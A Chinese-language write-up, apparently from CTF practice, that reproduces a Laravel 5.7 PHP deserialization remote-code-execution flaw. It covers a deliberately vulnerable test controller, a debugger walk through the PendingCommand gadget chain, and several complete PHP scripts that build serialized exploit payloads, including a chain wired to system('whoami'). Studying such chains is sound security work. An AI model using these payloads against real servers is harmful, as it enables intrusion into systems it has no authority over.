刚审完yii框架的反序列化，又来看看Laravel框架的反序列化

## 0x01Laravel框架

官方文档：https://laravel.com/docs/12.x/releases

Laravel 是一个具有高效、优雅语法的 Web 应用框架。它提供了创建应用程序的结构和起点巴拉巴拉一顿夸，这里就越过了

## 0x02漏洞描述

Laravel Framework 5.7.x版本中的Illuminate组件存在反序列化漏洞，远程攻击者可利用该漏洞执行代码

对PHP版本的要求：php 7.1.3以上

## 0x03靶场搭建

源码地址：https://github.com/laravel/laravel/tree/5.7

也可以用composer安装

```
composer create-project laravel/laravel=5.7.* --prefer-dist Laravel5.7
```



然后运行服务

```
php artisan serve
```

访问8000端口就行

因为在laravel框架中并没用触发反序列化的点，所以我们需要自己手写一个demo

在app\http\Controllers下新建控制器TestController.php

```php
<?php
namespace App\Http\Controllers;

class TestController {
    public function test(){
        if(isset($_GET['poc'])){
            unserialize($_GET['poc']);
        }else{
            highlight_file(__FILE__);
        }
        return "success";
    }
}

```

然后在routes\web.php添加路由

```
Route::get('/test','test_Controller@test');//类名@方法名
```

然后访问test路由



## 0x04漏洞复现

相比于5.7之前的版本，5.7之后新加入了一个PendingCommand类，我们看看官方对这个类的解释



大致可以看出这个类主要是用来执行命令的，里面有两个受保护的属性string和array分别标表示需要运行的命令和要传递给命令的参数。（在5.7中是$command和$parameters）

话不多说，我们看看源码

要触发反序列化漏洞，必然是在`__destruct()`方法做文章，先看看这个方法



这里调用了run方法，但是需要避开if语句，不过hasExecu,ted本来便是false

```php
protected $hasExecuted = false;
```

那我们直接看run方法



这里写着是执行命令的函数，所以这里必然就是我们触发RCE的点了，传个payload然后调试一下看看代码的走向

exp

```php
<?php
namespace Illuminate\Foundation\Testing{
    class PendingCommand{
        protected $command;
        protected $parameters;
        public function __construct(){
            $this -> command = "phpinfo";
            $this -> parameters[] = "1";
        }
    }
}

namespace {
    use Illuminate\Foundation\Testing\PendingCommand;
    echo urlencode(serialize(new PendingCommand()));
}
```

打好断点后开始调试

反序列化触发__destruct()后进入run()



我们分析一下这段代码

运行命令的代码在136行

```php
try {
    $exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
}
```

需要进入运行命令的代码，就需要经过133行的代码

跳断点发现并没有跳到136行代码，所以猜测是问题出现在133行代码的执行上

```php
$this->mockConsoleOutput();
```

这段代码主要是用来模拟终端的输入和输出的，继续前进就进入这个函数

跟进一下

```php
protected function mockConsoleOutput()
{
    $mock = Mockery::mock(OutputStyle::class.'[askQuestion]', [
        (new ArrayInput($this->parameters)), $this->createABufferedOutputMock(),
    ]);

    foreach ($this->test->expectedQuestions as $i => $question) {
        $mock->shouldReceive('askQuestion')
            ->once()
            ->ordered()
            ->with(Mockery::on(function ($argument) use ($question) {
                return $argument->getQuestion() == $question[0];
            }))
            ->andReturnUsing(function () use ($question, $i) {
                unset($this->test->expectedQuestions[$i]);

                return $question[1];
            });
    }

    $this->app->bind(OutputStyle::class, function () use ($mock) {
        return $mock;
    });
}
```

这里的话有Mockery类和ArrayInput类，中间会经过spl_autoload_call->load->loadclass，其实就是用来加载类的，不用管，随后会调用createABufferedOutputMock类，我们跟进一下

```php
private function createABufferedOutputMock()
{
    $mock = Mockery::mock(BufferedOutput::class.'[doWrite]')
            ->shouldAllowMockingProtectedMethods()
            ->shouldIgnoreMissing();

    foreach ($this->test->expectedOutput as $i => $output) {
        $mock->shouldReceive('doWrite')
            ->once()
            ->ordered()
            ->with($output, Mockery::any())
            ->andReturnUsing(function () use ($i) {
                unset($this->test->expectedOutput[$i]);
            });
    }

    return $mock;
}
```

这个类是用来模拟和调试控制台输入输出的函数，这里又调用了Mockery对象中的mock函数，步入mock函数后直接走就行，没必要看中间在经过哪些函数和变量

然后发现代码在执行完$mock的赋值之前就终止了



那就可以看出链子在哪里出了问题

```
foreach ($this->test->expectedOutput as $i => $output) {
        $mock->shouldReceive('doWrite')
```

此时在createABufferedOutputMock()方法中要进入for循环，这里的话会获取test对象中的expectedOutput，然后发现这个属性并没有在实例化对象test中出现，这个属性在`trait InteractsWithConsole`中，而trait类我们没法实例化，在其他我们可以实例化的类中，也没有一个类存在`expectedOutput`属性，此外就只有一些测试类有这个属性，所以这里如果需要链子继续下去的话我们需要对expectedOutput进行操作

所以可以想到，在访问不存在或不可访问的属性的时候会触发`__get()`方法，并且这里的test是可控的，所以我们全局搜索一下

在Illuminate\Auth\GenericUser的__get中存在一个`__get()`方法

```php
public function __get($key)
{
    return $this->attributes[$key];
}
```

这里的话attributes参数是可控的，所以我们直接给attributes赋值一个键名为expectedOutput的数组，然后让test属性指向该对象，试图触发`__get()`方法



成功触发`__get()`方法，并且for循环成功执行并退出createABufferedOutputMock方法



返回到mockConsoleOutput()中发现还需要设置一个属性



跟着做就行了

但是还是卡住了



意思是我们没有一个对象在调用bind函数

来到180行

```php
$this->app->bind(OutputStyle::class, function () use ($mock) {
    return $mock;
});
```

这里需要调用bind函数，那我们跟进一下这个函数，在Illuminate\Container\Container类中



对app属性设置为这个类的实例化对象就行了

```php
<?php
namespace Illuminate\Container{
    class Container{}
}

namespace Illuminate\Auth{
    class GenericUser{
        protected $attributes=[];
        public function __construct()
        {
            $this->attributes['expectedOutput']=['1'];
            $this->attributes['expectedQuestions']=['1'];
        }
    }
}
namespace Illuminate\Foundation\Testing{

    use Illuminate\Auth\GenericUser;
    use Illuminate\Container\Container;
    class PendingCommand{
        protected $command;
        protected $parameters;
        public $test;
        protected $app;
        public function __construct(){
            $this -> command = "phpinfo";
            $this -> parameters[] = "1";
            $this -> app = new Container();
            $this -> test = new GenericUser();
        }
    }
}
namespace {
    use Illuminate\Foundation\Testing\PendingCommand;
    echo urlencode(serialize(new PendingCommand()));
}
```

然后就可以走通了，接下来，就是最关键的产生漏洞的代码点。

```php
$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
```

这里的话通过实例化Illuminate\Contracts\Console\Kernel对象并调用call函数执行命令，猜测开发者的本意应该是实例化`Illuminate\Contracts\Console\Kernel`这个类，但是在`getConcrete`这个方法中出了问题，导致可以利用php的反射机制实例化任意类。而问题出在`vendor/laravel/framework/src/Illuminate/Container/Container.php`的704行



可以看到这里判断`$this->bindings[$abstract])`是否存在，若存在则返回`$this->bindings[$abstract]['concrete']`。$bindings是Container类的一个属性，如果我们能控制该属性的值，要寻找一个继承自`Container`的类，而`Illuminate\Foundation\Application`恰好继承自`Container`类，所以我们选择该对象传入`$this->app`的，由于我们已知`$abstract`变量为`Illuminate\Contracts\Console\Kernel`，所以我们只需通过反序列化定义`Illuminate\Foundation\Application`的`$bindings`属性存在键名为`Illuminate\Contracts\Console\Kernel`的二维数组就能进入该分支语句，返回我们要实例化的类名。在这里返回的是`Illuminate\Foundation\Application`类，然后就可以执行call方法实现RCE

## 0x05exp编写

所以最终的exp

```php
<?php
namespace Illuminate\Foundation{
    class Application
    {
        protected $bindings = [];

        public function __construct()
        {
            $this->bindings = array(
                'Illuminate\Contracts\Console\Kernel' => array(
                    'concrete' => 'Illuminate\Foundation\Application'
                )
            );
        }
    }
}
namespace Illuminate\Auth{
    class GenericUser{
        protected $attributes=[];
        public function __construct()
        {
            $this->attributes['expectedOutput']=['1'];
            $this->attributes['expectedQuestions']=['1'];
        }
    }
}
namespace Illuminate\Foundation\Testing{

    use Illuminate\Auth\GenericUser;
    use Illuminate\Foundation\Application;
    class PendingCommand{
        protected $command;
        protected $parameters;
        public $test;
        protected $app;
        public function __construct(){
            $this -> command = "phpinfo";
            $this -> parameters[] = "1";
            $this -> app = new Application();
            $this -> test = new GenericUser();
        }
    }
}
namespace {
    use Illuminate\Foundation\Testing\PendingCommand;
    echo urlencode(serialize(new PendingCommand()));
}

```





成功执行RCE

## 0x06exp二开

在挖掘之前我讲一个自己发现的遗憾的地方

这个是我刚刚在找`__get()方法`的时候就发现了一个很好玩的类\Faker\Generator类

```php
public function __get($attribute)
{
    return $this->format($attribute);
}
```

跟进format后

```php
public function format($formatter, $arguments = array())
{
    return call_user_func_array($this->getFormatter($formatter), $arguments);
}
```

这不是yii2框架的东西嘛，怎么还串门了，好神奇，跟进getFormatter发现也是一模一样，那看看是否可以用yii的链子，正则搜索一下

```
call_user_func\(\$this->([a-zA-Z0-9]+), \$this->([a-zA-Z0-9]+)
```



不过这个是抽象类，不能被实例化，找找他的继承类



那我们试着写一下链子

```
PendingCommand::____destruct()->PendingCommand::run()->PendingCommand::mockConsoleOutput()->Generator::__get()->AuthorTest::stopOutputBuffering()
```

```php
<?php
namespace PharIo\Manifest{
    class AuthorTest{
        private $outputCallback;
        private $output;
        public function __construct(){
            $this->outputCallback = "system";
            $this->output = "whoami";
        }
    }
}
namespace Faker{
    use PharIo\Manifest\AuthorTest;
    class Generator {
        private $formatters;
        public function __construct() {
            $this->formatters['expectedQuestions'] =[new AuthorTest(),'stopOutputBuffering'];
        }
    }
}
namespace Illuminate\Foundation\Testing{
    use \Faker\Generator;
    class PendingCommand{
        protected $command;
        protected $parameters;
        public $test;
        public function __construct(){
            $this -> command = "1";
            $this -> parameters[] = "1";
            $this -> test = new Generator();
        }
    }
}
namespace{
    use Illuminate\Foundation\Testing\PendingCommand;
    echo urlencode(serialize(new PendingCommand));
}

```

看了半天发现call_user_func所在的函数stopOutputBuffering是私有属性，只能类内部访问。那就打不通了

好了回到正题，我们接着找找可利用的`__get()`方法

找到一个类Faker\DefaultGenerator的get方法

```php
public function __get($attribute)
{
    return $this->default;
}
```

看看$default参数是否可控

```php
    public function __construct($default = null)
    {
        $this->default = $default;
    }
```

这里`__get`有返回值，可以做，那我们改一下我们之前的exp1

```php
<?php
namespace Illuminate\Foundation{
    class Application
    {
        protected $bindings = [];

        public function __construct()
        {
            $this->bindings = array(
                'Illuminate\Contracts\Console\Kernel' => array(
                    'concrete' => 'Illuminate\Foundation\Application'
                )
            );
        }
    }
}
namespace Faker{
    class DefaultGenerator{
        protected $default = array(1,1);
    }
}
namespace Illuminate\Foundation\Testing{

    use Faker\DefaultGenerator;
    use Illuminate\Foundation\Application;

    class PendingCommand{
        protected $command;
        public $test;
        protected $app;
        protected $parameters;

        public function __construct(){
            $this -> command = "phpinfo";
            $this -> parameters[] = "1";
            $this -> app = new Application();
            $this -> test = new DefaultGenerator();
        }
    }
}
namespace {
    use Illuminate\Foundation\Testing\PendingCommand;
    echo urlencode(serialize(new PendingCommand()));
}
```

需要注意的一点，该漏洞只对laravel v5.7版本有效。因为5.7之前的版本并不存在入口类

## 0x07exp2

做到web272的时候发现pendingCommand类被禁了，说明这里还有东西可以挖，我们继续挖一下

先找找`__destruct()`入口

找到一个类Illuminate\Broadcasting\PendingBroadcast，其实也不算找到吧，就是偶然发现了有这么一条链子

```php
    public function __destruct()
    {
        $this->events->dispatch($this->event);
    }
```

看看参数是否可控

```php
    public function __construct(Dispatcher $events, $event)
    {
        $this->event = $event;
        $this->events = $events;
    }
```

events参数和event参数都可控，那此时的思路有了，要么找到dispatch方法可利用的类，要么触发`__call()方法`

不过我更倾向于用`__call`方法，先用`__call()`来做突破点，跟进`src/Faker/Generator.php`中的`__call()`方法，发现其调用了`format()`方法，进而调用`getFormatter()`方法

